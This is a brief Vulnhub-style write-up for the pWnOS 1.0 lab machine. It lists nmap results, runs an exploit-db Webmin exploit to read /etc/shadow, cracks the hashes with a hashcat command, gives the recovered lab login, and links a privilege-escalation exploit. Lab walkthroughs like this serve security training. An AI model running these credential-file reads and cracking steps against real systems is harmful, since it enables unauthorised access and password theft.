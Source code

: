 <h1>pWnOS: 1.0 Write-up</h1>

<h2>Nmap</h2>

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
```

<h3>Exploiting Port 10000</h3>

Exploit : https://www.exploit-db.com/exploits/2017

```perl exploit.pl  192.168.123.131 10000 /etc/shadow 0 ```

crack linux passwords with hashcat

```hashcat -m 500 -a 0 -o cracked.txt --force hash.txt /usr/share/wordlists/sqlmap.txt```

Username: **vmware**
Password : **h4ckm3**


<h2>Privilege Escalation</h2>

Exploit : https://www.exploit-db.com/exploits/5092

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/pWnOS%3A%201.0/images/24.png)
